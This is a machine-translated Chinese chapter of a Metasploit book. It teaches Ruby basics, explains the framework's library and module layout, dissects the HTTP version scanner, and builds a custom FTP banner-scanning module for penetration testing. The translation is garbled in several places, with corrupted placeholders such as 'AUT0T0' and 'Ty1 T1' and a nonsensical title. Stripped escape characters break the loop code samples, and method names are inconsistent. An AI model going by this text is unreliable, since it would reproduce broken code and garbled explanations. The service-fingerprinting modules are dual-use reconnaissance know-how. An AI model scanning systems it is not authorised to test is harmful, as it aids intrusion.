






# 改造变质液

我们已经介绍了 Metasploit 的基础知识，因此现在我们可以进一步了解 Metasploit 框架的底层编码部分。我们将从 Ruby 编程的基础知识开始，了解各种语法及其语义。本章将使您轻松编写 Metasploit 模块。在本章中，我们将了解如何使用我们选择的功能设计和制造各种 Metasploit 模块。我们还将研究如何创建自定义的后利用模块，这将帮助我们更好地控制被利用的机器。

考虑一个场景，在渗透测试范围内的系统的数量是巨大的，并且我们渴望一个开发后的特性，例如从所有被开发的系统下载特定文件。手动从每个系统下载特定文件不仅耗时，而且效率低下。因此，在这样的场景中，我们可以创建一个自定义的攻击后脚本，该脚本将自动从所有受损系统下载该文件。

本章从 Metasploit 上下文中的 Ruby 编程基础开始，并以开发各种 Metasploit 模块结束。在本章中，我们将介绍：

*   Metasploit 环境下 Ruby 编程的基础知识
*   探索 Metasploit 中的模块
*   编写自定义扫描程序、暴力攻击和攻击后模块
*   编码计量器脚本
*   理解 Metasploit 模块的语法和语义
*   使用 DLL 实现**轨道炮**的不可能

现在，让我们了解 Ruby 编程的基础知识，并收集编写 Metasploit 模块所需的基本要素。

在深入研究 Metasploit 模块的编码之前，我们必须了解设计这些模块所需的 Ruby 编程的核心特性。为什么 Metasploit 需要 Ruby？以下要点有助于我们理解这个问题的答案：

*   为可重用代码构建自动化类是 Ruby 语言的一个特性，它符合 Metasploit 的需要
*   Ruby 是一种面向对象的编程风格
*   Ruby 是一种基于解释器的语言，速度快，减少了开发时间

# 红宝石-Metasploit 的心脏

Ruby 确实是 Metasploit 框架的核心。然而，Ruby 到底是什么？根据官方网站，Ruby 是一种简单而功能强大的编程语言，由松本横弘于 1995 年设计。它被进一步定义为一种动态、反射和通用的面向对象编程语言，其功能类似于 Perl。

您可以从以下位置下载适用于 Windows/Linux 的 Ruby:[https://rubyinstaller.org/downloads/](https://rubyinstaller.org/downloads/) 。

您可以在[查阅一个非常好的学习 Ruby 的实用资源 http://tryruby.org/levels/1/challenges/0](http://tryruby.org/levels/1/challenges/0) 。

# 创建第一个 Ruby 程序

Ruby 是一种易于学习的编程语言。现在，让我们从 Ruby 的基础知识开始。请记住，Ruby 是一种广泛的编程语言，涵盖 Ruby 的所有功能将使我们超越本书的范围。因此，我们将只坚持设计 Metasploit 模块所需的要点。

# 与 Ruby 外壳交互

Ruby 提供了一个交互式 shell，使用它可以帮助我们理解基本知识。那么，让我们开始吧。打开 CMD/Terminal 并键入`irb`以启动 Ruby 交互式 shell。

让我们在 Ruby shell 中输入一些东西，看看会发生什么；假设我输入数字`2`，如下所示：

```
irb(main):001:0> 2
=> 2   
```

shell 只返回值。让我们给出另一个输入，例如带有加法运算符的输入，如下所示：

```
irb(main):002:0> 2+3
=> 5  
```

我们可以看到，如果我们在表达式样式中输入数字，shell 将返回表达式的结果。

让我们对字符串执行一些函数，例如将字符串的值存储在变量中，如下所示：

```
irb(main):005:0> a= "nipun"
=> "nipun"
irb(main):006:0> b= "loves Metasploit"
=> "loves metasploit"  
```

在为两个变量`a`和`b`赋值后，让我们看看在控制台上发出`a`和`a+b`时会发生什么：

```
irb(main):014:0> a
=> "nipun"
irb(main):015:0> a+b
=> "nipun loves metasploit"  
```

我们可以看到，当我们输入`a`作为输入时，它反映了名为`a`的变量中存储的值。类似地，`a+b`将`a`和`b`连接起来。

# 在 shell 中定义方法

方法或函数是我们调用它时将执行的一组语句。我们可以在 Ruby 的交互式 shell 中轻松地声明方法，也可以使用脚本声明方法。使用 Metasploit 模块时，方法知识非常重要。让我们看看语法：

```
def method_name [( [arg [= default]]...[, * arg [, &expr ]])]
expr
end  
```

为了定义一个方法，我们使用`def`后跟方法名，参数和表达式在括号中。我们还使用一个`end`语句，在所有表达式之后设置方法定义的结束。这里，`arg`指的是方法接收的参数。此外，`expr`指方法内联接收或计算的表达式。让我们看一个例子：

```
irb(main):002:0> def xorops(a,b)
irb(main):003:1> res = a ^ b
irb(main):004:1> return res
irb(main):005:1> end
=> :xorops  
```

我们定义了一个名为`xorops`的方法，该方法接收两个名为`a`和`b`的参数。此外，我们对收到的参数进行异或运算，并将结果存储在一个名为`res`的新变量中。最后，我们使用`return`语句返回结果：

```
irb(main):006:0> xorops(90,147)
=> 201  
```

我们可以看到我们的函数通过执行 XOR 操作打印出正确的值。Ruby 提供两种不同的函数来打印输出：`puts`和`print`。在 Metasploit 框架中，主要使用的是`print_line`函数。但是，可以分别使用`print_good`、`print_status`和`print_error`语句来表示成功、状态和错误。下面我们来看一些例子：

```
print_good("Example of Print Good") 
print_status("Example of Print Status") 
print_error("Example of Print Error") 
```

这些`print`方法与 Metasploit 模块一起使用时，将产生以下输出，绿色`+`符号表示良好，蓝色`*`符号表示状态消息，红色`-`符号表示错误：

```
[+] Example of Print Good
[*] Example of Print Status
[-] Example of Print Error  
```

我们将在本章后半部分看到各种`print`语句类型的工作原理。

# Ruby 中的变量和数据类型

变量是可以在任何给定时间更改的值的占位符。在 Ruby 中，我们仅在需要时声明变量。Ruby 支持多种可变数据类型，但我们将只讨论与 Metasploit 相关的数据类型。让我们看看它们是什么。

# 使用字符串

字符串是表示字符流或序列的对象。在 Ruby 中，我们可以轻松地为变量分配字符串值，如前一个示例所示。只需在引号或单引号中定义值，就可以为字符串赋值。

建议使用双引号，因为如果使用单引号，可能会产生问题。让我们看看可能出现的问题：

```
irb(main):005:0> name = 'Msf Book'
=> "Msf Book"
irb(main):006:0> name = 'Msf's Book'
irb(main):007:0' '  
```

我们可以看到，当我们使用一个引号时，它是有效的。但是，当我们试图将`Msf's`而不是`Msf`的值放入时，出现了一个错误。这是因为它读取`Msf's`字符串中的单引号作为单引号的结尾，事实并非如此；这种情况导致了基于语法的错误。

# 串联字符串

在处理 Metasploit 模块的整个过程中，我们都需要字符串连接功能。我们将有多个实例，需要将两个不同的结果连接到一个字符串中。我们可以使用`+`运算符执行字符串连接。但是，我们可以通过使用`<<`操作符向变量添加数据来延长变量：

```
irb(main):007:0> a = "Nipun" 
=> "Nipun" 
irb(main):008:0> a << " loves" 
=> "Nipun loves" 
irb(main):009:0> a << " Metasploit" 
=> "Nipun loves Metasploit" 
irb(main):010:0> a
```

```
=> "Nipun loves Metasploit" 
irb(main):011:0> b = " and plays counter strike" 
=> " and plays counter strike" 
irb(main):012:0> a+b 
=> "Nipun loves Metasploit and plays counter strike"  
```

我们可以看到，我们首先将值`"Nipun"`赋给变量`a`，然后使用`<<`运算符将`"loves"`和`"Metasploit"`附加到变量上。我们可以看到，我们使用了另一个变量`b`，并在其中存储了`"and plays counter strike"`值。接下来，我们使用+运算符简单地连接两个值，并得到完整的输出作为`"Nipun loves Metasploit and plays counter strike"`。

# 子串函数

在 Ruby 中很容易找到字符串的子字符串。我们只需要指定字符串的起始索引和长度，如下例所示：

```
irb(main):001:0> a= "12345678"
=> "12345678"
irb(main):002:0> a[0,2]
=> "12"
irb(main):003:0> a[2,2]
=> "34"  
```

# 分裂函数

我们可以使用`split`函数将字符串的值拆分为变量数组。让我们看一个简单的例子来说明这一点：

```
irb(main):001:0> a = "mastering,metasploit"
=> "mastering,metasploit"
irb(main):002:0> b = a.split(",")
=> ["mastering", "metasploit"]
irb(main):003:0> b[0]
=> "mastering"
irb(main):004:0> b[1]
=> "metasploit"  
```

我们可以看到，我们已经将字符串的值从`","`位置拆分为一个新数组`b`。`"mastering,metasploit"`字符串现在构成数组的第 0 个和第 1 个元素`b`，分别包含值`"mastering"`和`"metasploit"`。

# Ruby 中的数字与转换

我们可以在算术运算中直接使用数字。但是，在使用`.to_i`函数处理用户输入时，请记住将字符串转换为整数。另一方面，我们可以使用`.to_s`函数将整数转换为字符串。

让我们看一些快速示例及其输出：

```
irb(main):006:0> b="55"
=> "55"
irb(main):007:0> b+10
TypeError: no implicit conversion of Fixnum into String
        from (irb):7:in `+'
        from (irb):7
        from C:/Ruby200/bin/irb:12:in `<main>'
irb(main):008:0> b.to_i+10
=> 65
irb(main):009:0> a=10
=> 10
irb(main):010:0> b="hello"
=> "hello"
irb(main):011:0> a+b
TypeError: String can't be coerced into Fixnum
        from (irb):11:in `+'
        from (irb):11
        from C:/Ruby200/bin/irb:12:in `<main>'
irb(main):012:0> a.to_s+b
=> "10hello"  
```

我们可以看到，当我们在引号中将`a`值赋给`b`时，它被视为一个字符串，在执行加法操作时产生了一个错误。尽管如此，只要我们使用了`to_i`函数，它就将字符串中的值转换为整数变量，并且成功地执行了加法。类似地，关于字符串，当我们尝试将整数与字符串连接时，出现了一个错误。然而，在转换之后，它工作得非常好。

# Ruby 中的转换

在使用漏洞和模块时，我们需要大量的转换操作。让我们看看我们将在接下来的部分中使用的一些转换：

*   **十六进制到十进制的转换**：
    *   在 Ruby 中，使用内置的`hex`函数很容易将值从十六进制转换为十进制。让我们看一个例子：

```
irb(main):021:0> a= "10"
=> "10"
irb(main):022:0> a.hex
=> 16
```

*   **十进制到十六进制的转换**：
    *   与上述功能相反的功能可通过`to_s`功能执行，如下所示：

```
irb(main):028:0> 16.to_s(16)
=> "10"
```

# 红宝石色范围

范围是一个重要方面，广泛用于辅助模块，如 Metasploit 中的扫描仪和模糊器。

让我们定义一个范围，并查看可以对该数据类型执行的各种操作：

```
irb(main):028:0> zero_to_nine= 0..9
=> 0..9
irb(main):031:0> zero_to_nine.include?(4)
=> true
irb(main):032:0> zero_to_nine.include?(11)
=> false
irb(main):002:0> zero_to_nine.each{|zero_to_nine| print(zero_to_nine)}
0123456789=> 0..9
irb(main):003:0> zero_to_nine.min
=> 0
irb(main):004:0> zero_to_nine.max
=> 9
```

我们可以看到，范围提供了各种操作，例如搜索、查找最小值和最大值，以及显示范围中的所有数据。在此，`include?`函数检查值是否包含在范围内。此外，`min`和`max`功能显示范围内的最低值和最高值。

# Ruby 中的数组

我们可以简单地将数组定义为各种值的列表。让我们看一个例子：

```
irb(main):005:0> name = ["nipun","metasploit"]
=> ["nipun", "metasploit"]
irb(main):006:0> name[0]
=> "nipun"
irb(main):007:0> name[1]
=> "metasploit"  
```

到目前为止，我们已经涵盖了编写 Metasploit 模块所需的所有必需变量和数据类型。

有关变量和数据类型的更多信息，请参阅以下链接：[https://www.tutorialspoint.com/ruby/index.htm](https://www.tutorialspoint.com/ruby/index.htm) 。

请参考以下链接中有效使用 Ruby 编程的快速备忘单：[https://github.com/savini/cheatsheets/raw/master/ruby/RubyCheat.pdf](https://github.com/savini/cheatsheets/raw/master/ruby/RubyCheat.pdf) 。

从另一种编程语言过渡到 Ruby？参考有用的指南：[http://hyperpolyglot.org/scripting](http://hyperpolyglot.org/scripting) 。

# Ruby 中的方法

方法是函数的另一个名称。与 Ruby 背景不同的程序员可能会互换使用这些术语。方法是执行特定操作的子例程。方法的使用实现了代码的重用，并显著减少了程序的长度。定义一个方法很简单，它们的定义以`def`关键字开始，以`end`语句结束。让我们考虑一个简单的程序来理解它们是如何工作的，例如打印出 Ty2 T2 的平方：

```
def print_data(par1) 
square = par1*par1 
return square 
end 
answer = print_data(50) 
print(answer)  
```

`print_data`方法接收主函数发送的参数，将其与自身相乘，然后使用`return`语句将其发回。程序将此返回值保存在名为`answer`的变量中，并打印该值。我们将在本章的后半部分以及接下来的几章中大量使用这些方法。

# 决策算子

决策也是一个简单的概念，就像任何其他编程语言一样。让我们看一个例子：

```
irb(main):001:0> 1 > 2
=> false  
```

让我们也考虑字符串数据的情况：

```
irb(main):005:0> "Nipun" == "nipun"
=> false
irb(main):006:0> "Nipun" == "Nipun"
=> true  
```

让我们考虑一个简单的带有决策算子的程序：

```
def find_match(a) 
if a =~ /Metasploit/ 
return true 
else 
return false 
end 
end 
# Main Starts Here 
a = "1238924983Metasploitduidisdid" 
bool_b=find_match(a) 
print bool_b.to_s 
```

在前面的程序中，我们使用了单词“T0 T0”，它正好位于垃圾数据的中间，并被分配给 AUTYT1 变量。接下来，我们将此数据发送到`find_match()`方法，在那里它与`/Metasploit/`正则表达式匹配。如果`a`变量包含单词`"Metasploit"`，则返回 true 条件，否则将为`bool_b`变量指定 false 值。

运行上述方法将根据决策运算符`=~`生成一个与两个值匹配的有效条件。

在基于 Windows 的环境中执行时，上述程序的输出将与以下输出类似：

```
C:\Ruby23-x64\bin>ruby.exe a.rb
true
```

# Ruby 中的循环

迭代语句称为循环；与任何其他编程语言一样，循环也存在于 Ruby 编程中。让我们使用它们，看看它们的语法与其他语言有何不同：

```
def forl(a) 
for i in 0..a 
print("Number #{i}n") 
end 
end 
forl(10) 
```

前面的代码按照范围中的定义，迭代从`0`到`10`的循环，然后打印出值。这里，我们使用了`#{i}`来打印`print`语句中`i`变量的值。`n`关键字指定一个新行。因此，每次打印变量时，它都会占用一个新行。

通过`each`循环迭代循环也是一种常见做法，在 Metasploit 模块中广泛使用。让我们看一个例子：

```
def each_example(a) 
a.each do |i| 
print i.to_s + "t" 
end 
end 
# Main Starts Here 
a = Array.new(5) 
a=[10,20,30,40,50] 
each_example(a) 
```

在前面的代码中，我们定义了一个方法，该方法接受数组`a`，并使用`each`循环打印其所有元素。使用`each`方法执行循环将暂时将`a`数组的元素存储到`i`中，直到在下一个循环中被覆盖。`print`语句中的`t`表示选项卡。

参见[http://www.tutorialspoint.com/ruby/ruby_loops.htm](http://www.tutorialspoint.com/ruby/ruby_loops.htm) 了解更多有关环路的信息。

# 正则表达式

正则表达式用于匹配字符串或其在给定字符串集或句子中的出现次数。正则表达式的概念对于 Metasploit 来说至关重要。在大多数情况下，我们在编写模糊器、扫描仪、分析来自给定端口的响应等时使用正则表达式。

让我们看一个演示正则表达式用法的程序示例。

考虑一个场景，我们有一个变量，AUT0T0，值为 Ty1 T1，我们需要为它设计正则表达式。让我们看一下以下代码片段：

```
irb(main):001:0> n = "Hello world"
=> "Hello world"
irb(main):004:0> r = /world/
=> /world/
irb(main):005:0> r.match n
=> #<MatchData "world">
irb(main):006:0> n =~ r
=> 6  
```

我们创建了另一个名为`r`的变量，并将正则表达式存储在其中，即`/world/`。在下一行中，我们使用`MatchData`类的`match`对象将正则表达式与字符串匹配。shell 以消息`MatchData "world"`响应，表示匹配成功。接下来，我们将使用另一种方法，使用`=~`操作符匹配字符串，该操作符返回匹配的确切位置。让我们看另一个这样做的例子：

```
irb(main):007:0> r = /^world/
=> /^world/
irb(main):008:0> n =~ r
=> nil
irb(main):009:0> r = /^Hello/
=> /^Hello/
irb(main):010:0> n =~ r
=> 0
irb(main):014:0> r= /world$/
=> /world$/
irb(main):015:0> n=~ r
=> 6
```

让我们为`r`分配一个新值，即`/^world/`；这里，`^`操作符告诉解释器从一开始就匹配字符串。如果不匹配，我们将得到`nil`作为输出。我们将此表达式修改为以单词`Hello`开头；这一次，它返回了位置`0`，表示从一开始就匹配。接下来，我们将正则表达式修改为`/world$/`，这表示我们需要从末尾匹配单词`world`，以便成功匹配。

有关 Ruby 中正则表达式的更多信息，请参阅：[http://www.tutorialspoint.com/ruby/ruby_regular_expressions.htm](http://www.tutorialspoint.com/ruby/ruby_regular_expressions.htm) 。

请参考以下链接中有效使用 Ruby 编程的快速备忘单：[https://github.com/savini/cheatsheets/raw/master/ruby/RubyCheat.pdf](https://github.com/savini/cheatsheets/raw/master/ruby/RubyCheat.pdf) 和[http://hyperpolyglot.org/scripting](http://hyperpolyglot.org/scripting) 。

参见[http://rubular.com/](http://rubular.com/) 了解有关构建正确正则表达式的更多信息。

# 用 Ruby 基础知识结束

你好还醒着吗？那是一次很累的会议，对吗？我们刚刚介绍了设计 Metasploit 模块所需的 Ruby 的基本功能。Ruby 非常庞大，这里不可能涵盖它的所有方面。但是，请参考以下链接中有关 Ruby 编程的一些优秀资源：

*   有关 Ruby 教程的优秀资源，请访问：[http://tutorialspoint.com/ruby/](http://tutorialspoint.com/ruby/)
*   以下链接提供了有效使用 Ruby 编程的快速备忘：
    *   [https://github.com/savini/cheatsheets/raw/master/ruby/RubyCheat.pdf](https://github.com/savini/cheatsheets/raw/master/ruby/RubyCheat.pdf)
    *   [http://hyperpolyglot.org/scripting](http://hyperpolyglot.org/scripting)
*   有关 Ruby 的更多信息，请访问：[http://en.wikibooks.org/wiki/Ruby_Programming](http://en.wikibooks.org/wiki/Ruby_Programming)

# 开发定制模块

让我们深入了解编写模块的过程。Metasploit 有各种模块，如有效载荷、编码器、漏洞利用、NOP 生成器和辅助设备。在本节中，我们将介绍开发模块的要点；然后，我们将看看如何创建自定义模块。

我们将讨论辅助模块和开发后模块的开发。此外，我们将在下一章介绍核心利用模块。但是，在本章中，让我们详细检查模块构建的要点。

# 简而言之，构建模块

在深入构建模块之前，让我们先了解组件在 Metasploit 框架中的排列方式，以及它们的作用。

# Metasploit 框架的体系结构

Metasploit 包含各种组件，如必要的库、模块、插件和工具。Metasploit 结构的图解视图如下所示：


让我们看看这些组件是什么以及它们是如何工作的。最好从充当 Metasploit 核心的库开始。我们可以在下表中看到核心库：

| **图书馆名称** | **用法** |
| `REX` | 处理几乎所有的核心函数，如设置套接字、连接、格式化和所有其他原始函数 |
| `MSF CORE` | 提供底层 API 和描述框架的实际核心 |
| `MSF BASE` | 为模块提供友好的 API 支持 |

Metasploit 中有许多类型的模块，它们在功能上有所不同。我们有有效载荷模块，用于创建被利用系统的访问通道。我们有辅助模块来执行信息收集、指纹识别、模糊应用程序以及登录各种服务等操作。让我们检查一下这些模块的基本功能，如下表所示：

| **模块类型** | **用法** |
| --- | --- |
| 有效载荷 | 有效负载用于执行操作，例如在攻击后连接到目标系统或从目标系统连接，或者执行特定任务，例如安装服务，等等。有效负载执行是成功利用系统后的下一步。上一章中广泛使用的流量计外壳是典型的 Metasploit 有效载荷。 |
| 辅助的 | 在目标网络上执行特定任务（如信息收集、数据库指纹识别、端口扫描和旗帜抓取）的模块是辅助模块。 |
| 编码器 | 编码器用于对有效载荷和攻击向量进行编码，以逃避防病毒解决方案或防火墙的检测。 |
| 不 | NOP 生成器用于对齐，从而使漏洞利用保持稳定。 |
| 功绩 | 触发漏洞的实际代码片段。 |

# 理解文件结构

Metasploit 中的文件结构如下图所示：


我们将通过下表介绍最相关的目录，这些目录将帮助我们构建 Metasploit 模块：

| **目录** | **用法** |
| `lib` | Metasploit 的核心和灵魂；它包含帮助我们构建 MSF 模块的所有基本库文件。 |
| `modules` | 所有 Metasploit 模块都包含在此目录中；从扫描器到开发后模块，集成到 Metasploit 项目中的每个模块都可以在此目录中找到。 |
| `tools` | 帮助渗透测试的命令行实用程序包含在此文件夹中；从创建垃圾模式到查找 JMP ESP 地址以成功编写漏洞攻击，这里提供了所有必要的命令行实用程序。 |
| `plugins` | 所有扩展 Metasploit 功能的插件都存储在此目录中。标准插件有 OpenVAS、Nexpose、Nessus 和其他各种插件，它们可以使用`load`命令加载到框架中。 |
| `scripts` | 此目录包含 MeterMeter 和各种其他脚本。 |

# 图书馆布局

Metasploit 模块是包含在不同库中的各种函数和通用 Ruby 编程的组合。现在，要使用这些函数，我们首先需要了解它们是什么。我们如何触发这些功能？我们需要传递多少个参数？此外，这些函数将返回什么？

让我们看看这些库是如何组织的；以下屏幕截图对此进行了说明：


正如我们在前面的屏幕截图中所看到的，我们在`/lib`目录中有重要的`rex`库以及所有其他基本库。

`/base`和`/core`库也是一组重要的库，位于`/msf`目录下：


现在，在`/msf/core`libraries 文件夹下，我们有我们在第一章前面使用的所有模块的库；以下屏幕截图对此进行了说明：



这些库文件为所有模块提供了核心。然而，对于不同的操作和功能，我们可以参考我们想要的任何库。大多数 Metasploit 模块中使用最广泛的一些库文件位于`core/exploits/`目录中，如以下屏幕截图所示：


我们可以看到，在`core/`目录中很容易找到各种类型模块的所有相关库。目前，我们有用于漏洞利用、有效负载、漏洞利用后、编码器和各种其他模块的核心库。

访问位于[的 Metasploit Git 存储库 https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework) 获取完整的源代码。

# 了解现有模块

开始编写模块的最佳方法是深入研究现有的 Metasploit 模块，看看它们在内部是如何工作的。

# Metasploit 模块的格式

Metasploit 模块的框架相当简单。我们可以在下面显示的代码中看到 universal header 部分：

```
require 'msf/core' 

class MetasploitModule < Msf::Auxiliary 
  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'Module name', 
      'Description'    => %q{ 
        Say something that the user might want to know. 
      }, 
      'Author'         => [ 'Name' ], 
      'License'        => MSF_LICENSE 
    )) 
  end 
  def run 
    # Main function 
  end 
end 
```

一个模块首先使用`require`关键字包含必要的库，在前面的代码中紧跟着`msf/core`库。因此，它包括来自`/msf`目录的核心库。

下一个主要任务是定义类类型，它指定我们要创建的模块的类型。我们可以看到，我们设置`MSF::Auxiliary`也是为了同样的目的。

在 Ruby 的默认构造函数`initialize`方法中，我们定义了`Name`、`Description`、`Author`、`License`、`CVE`等细节。此方法涵盖特定模块的所有相关信息：`Name`通常包含目标软件名；`Description`包括关于漏洞解释的摘录；`Author`是模块开发人员的姓名；而`License`是`MSF_LICENSE`，如前面列出的代码示例所述。辅助模块的主要方法是`run`方法。因此，除非有很多其他方法，否则所有操作都应该在它内部执行。但是，执行仍将以`run`方法开始。

# 正在分解现有 HTTP 服务器扫描程序模块

让我们使用 HTTP 版本扫描程序的一个简单模块，看看它是如何工作的。此 Metasploit 模块的路径为：`/modules/auxiliary/scanner/http/http_version.rb`。

让我们系统地检查本模块：

```
## 
# This module requires Metasploit: https://metasploit.com/download 
# Current source: https://github.com/rapid7/metasploit-framework 
## 
require 'rex/proto/http' 
class MetasploitModule < Msf::Auxiliary 
```

让我们讨论一下这里的事情是如何安排的。版权行（以`#`符号开始）是注释，包含在所有 Metasploit 模块中。`require 'rex/proto/http'`语句要求解释器包含指向`rex`库中所有 HTTP 协议方法的路径。因此，模块现在可以使用`/lib/rex/proto/http`目录中所有文件的路径，如以下屏幕截图所示：


所有这些文件都包含各种 HTTP 方法，包括建立连接的函数、`GET`和`POST`请求、响应处理等。

在下一行中，`Msf::Auxiliary`将代码定义为辅助类型模块。让我们继续代码，如下所示：

```
  # Exploit mixins should be called first 
  include Msf::Exploit::Remote::HttpClient 
  include Msf::Auxiliary::WmapScanServer 
  # Scanner mixin should be near last 
  include Msf::Auxiliary::Scanner 
```

上一节包括包含模块中使用的方法的所有必要库文件。让我们列出这些包含库的路径，如下所示：

| **包含报表** | **路径** | **用法** |
| `Msf::Exploit::Remote::HttpClient` | `/lib/msf/core/exploit/http/client.rb` | 此库文件将提供各种方法，如连接到目标、发送请求、断开客户端连接等。 |
| `Msf::Auxiliary::WmapScanServer` | `/lib/msf/core/auxiliary/wmapmodule.rb` | 你可能会想，什么是 WMAP？WMAP 是 Metasploit 框架的一个基于 web 应用程序的漏洞扫描插件，它有助于使用 Metasploit 进行 web 测试。 |
| `Msf::Auxiliary::Scanner` | `/lib/msf/core/auxiliary/scanner.rb` | 此文件包含基于扫描仪的模块的所有各种功能。该文件支持各种方法，如运行模块、初始化和扫描进度等。 |

让我们看下一段代码：

```
def initialize 
  super( 
    'Name'        => 'HTTP Version Detection', 
    'Description' => 'Display version information about each system', 
    'Author'      => 'hdm', 
    'License'     => MSF_LICENSE 
  ) 

  register_wmap_options({ 
      'OrderID' => 0, 
      'Require' => {}, 
    }) 
end 
```

这部分模块定义了`initialize`方法，该方法初始化该模块的`Name`、`Author`、`Description`、`License`等基本参数，并初始化 WMAP 参数。现在，让我们看一下代码的最后一部分：

```
# Fingerprint a single host 
  def run_host(ip) 
    begin 
      connect 
      res = send_request_raw({ 'uri' => '/', 'method' => 'GET' }) 
      fp = http_fingerprint(:response => res) 
      print_good("#{ip}:#{rport} #{fp}") if fp 
      report_service(:host => rhost, :port => rport, :sname => (ssl ? 'https' : 'http'), :info => fp) 
    rescue ::Timeout::Error, ::Errno::EPIPE 
    ensure 
      disconnect 
    end 
  end 
end 
```

这里的功能是扫描仪的核心。

# 图书馆及其职能

让我们看看本模块中使用的库中的一些基本方法，如下所示：

| **功能** | **库文件** | **用法** |
| `run_host` | `/lib/msf/core/auxiliary/scanner.rb` | 将为每个主机运行一次的主方法 |
| `connect` | `/lib/msf/core/auxiliary/scanner.rb` | 这用于建立到目标主机的连接 |
| `send_raw_request` | `/core/exploit/http/client.rb` | 此方法用于向目标发出原始 HTTP 请求 |
| `request_raw` | `/rex/proto/http/client.rb` | `send_raw_request`向其传递数据的库方法 |
| `http_fingerprint` | `/lib/msf/core/exploit/http/client.rb` | 将 HTTP 响应解析为可用变量 |
| `report_service` | `/lib/msf/core/auxiliary/report.rb` | 此方法用于报告在目标主机上找到的服务并将其存储到数据库中 |

现在让我们了解模块。这里，我们有一个名为`run_host`的方法，该方法以 IP 作为参数来建立到所需主机的连接。`run_host`方法来自`/lib/msf/core/auxiliary/scanner.rb`库文件。此方法将为每个主机运行一次，如以下屏幕截图所示：


接下来，我们有`begin`关键字，它表示代码块的开始。在下一个语句中，我们有`connect`方法，它建立到服务器的 HTTP 连接，如前表所述。

接下来，我们定义一个名为`res`的变量，它将存储响应。我们将使用`/core/exploit/http/client.rb`文件中的`send_raw_request`方法，参数`URI`为`/`，请求的`method`为`GET`：


前面的方法将帮助您连接到服务器、创建请求、发送请求和读取响应。我们将响应保存在`res`变量中。

此方法将所有参数从`/rex/proto/http/client.rb`文件传递到`request_raw`方法，并在其中检查所有这些参数。我们有很多参数可以在参数列表中设置。让我们看看它们是什么：



`res`是存储结果的变量。在下一条语句中，`/lib/msf/core/exploit/http/client.rb`文件中的`http_fingerprint`方法用于分析`fp`变量中的数据。此方法将记录并过滤掉`Set-cookie`、`Powered-by`等信息头。此方法需要 HTTP 响应数据包来进行计算。因此，我们将提供`:response``=> res`作为一个参数，表示从先前使用`res`生成的请求中接收到的数据应该进行指纹识别。但是，如果未给出此参数，它将重做所有操作并再次从源获取数据。下一条语句打印出一条类型良好的信息消息，其中包含详细信息，如 IP、端口和服务名称，但只有在设置了`fp`变量时才打印。`report_service`方法只是将信息存储到数据库中。它将保存目标的 IP 地址、端口号、服务类型（基于服务的 HTTP 或 HTTPS）和服务信息。如果模块超时，最后一行`rescue ::Timeout::Error, ::Errno::EPIPE`将处理异常。

现在，让我们运行这个模块，看看输出是什么：


到目前为止，我们已经了解了模块的工作原理。我们可以看到，在应用程序的成功指纹上，信息被发布在控制台上并保存在数据库中。此外，在超时时，模块不会崩溃，并且处理得很好。让我们更进一步，尝试编写自定义模块。

# 编写自定义 FTP 扫描模块

让我们尝试构建一个简单的模块。我们将编写一个简单的 FTP 指纹模块，看看它是如何工作的。让我们检查 FTP 模块的代码：

```
class MetasploitModule < Msf::Auxiliary 
  include Msf::Exploit::Remote::Ftp 
  include Msf::Auxiliary::Scanner 
  include Msf::Auxiliary::Report 
  def initialize 
    super( 
      'Name'        => 'FTP Version Scanner Customized Module', 
      'Description' => 'Detect FTP Version from the Target', 
      'Author'      => 'Nipun Jaswal', 
      'License'     =>  MSF_LICENSE 
    ) 

    register_options( 
      [ 
        Opt::RPORT(21), 
      ]) 
  end 
```

我们首先定义要构建的 Metasploit 模块的类型。在本例中，我们正在编写一个辅助模块，该模块与我们之前的工作非常相似。接下来，我们从核心库集中定义需要包含的库文件，如下所示：

| **包含报表** | **路径** | **用法** |
| `Msf::Exploit::Remote::Ftp` | `/lib/msf/core/exploit/ftp.rb` | 库文件包含与 FTP 相关的所有必要方法，例如用于建立连接、登录 FTP 服务、发送 FTP 命令等的方法。 |
| `Msf::Auxiliary::Scanner` | `/lib/msf/core/auxiliary/scanner.rb` | 此文件包含基于扫描仪的模块的所有各种功能。此文件支持各种方法，例如运行模块、初始化和扫描进度。 |
| `Msf::Auxiliary::Report` | `/lib/msf/core/auxiliary/report.rb` | 该文件包含各种报告函数，这些函数有助于将运行模块中的数据存储到数据库中。 |

我们在`initialize`方法中使用名称、描述、作者姓名和许可证等属性定义模块的信息。我们还定义了模块工作所需的选项。例如，在这里，我们将`RPORT`分配给端口`21`，这是 FTP 的默认端口。让我们继续学习模块的其余部分：

```
def run_host(target_host) 
     connect(true, false) 
    if(banner) 
    print_status("#{rhost} is running #{banner}") 
    report_service(:host => rhost, :port => rport, :name => "ftp", :info => banner) 
    end 
    disconnect 
  end 
end 
```

# 图书馆和职能

让我们看看本模块中使用的库中的一些重要函数，如下所示：

| **功能** | **库文件** | **用法** |
| `run_host` | `/lib/msf/core/auxiliary/scanner.rb` | 将为每个主机运行一次的主方法。 |
| `connect` | `/lib/msf/core/exploit/ftp.rb` | 此函数负责初始化与主机的连接，并自动获取存储在 banner 变量中的 banner。 |
| `report_service` | `/lib/msf/core/auxiliary/report.rb` | 此方法专门用于将服务及其关联的详细信息添加到数据库中。 |

我们定义了`run_host`方法，作为主要方法。`connect`功能将负责初始化与主机的连接。但是，我们为`connect`函数提供了两个参数，即`true`和`false`。`true`参数定义全局参数的使用，而`false`关闭模块的详细功能。`connect`功能的美妙之处在于它能自动连接到目标并在名为`banner`的参数中记录 FTP 服务的标题，如下图所示：



现在，我们知道结果存储在`banner`属性中。因此，我们只需在最后打印横幅。接下来，我们使用`report_service`功能，以便将扫描数据保存到数据库中，供以后使用或高级报告。该方法位于辅助库部分的`report.rb`文件中。`report_service`的代码类似于以下屏幕截图：


我们可以看到，提供给`report_service`方法的参数是使用`/lib/msf/core/db_manager/service.rb`中另一个名为`framework.db.report_service`的方法传递给数据库的。在执行所有必要的操作之后，我们只需断开与目标的连接。

这是一个简单的模块，我建议您尝试构建简单的扫描仪和其他类似的模块。

# 使用 msftidy

然而，在我们运行这个模块之前，让我们检查一下刚才构建的模块的语法是否正确。我们可以通过从名为`msftidy`的内置 Metasploit 工具传递模块来完成此操作，如以下屏幕截图所示：


我们将收到一条警告消息，指出第 20 行末尾有一些额外的空格。当我们删除额外的空格并重新运行`msftidy`时，我们将看到没有生成错误，这意味着模块的语法是正确的。

现在，让我们运行这个模块，看看我们收集了什么：



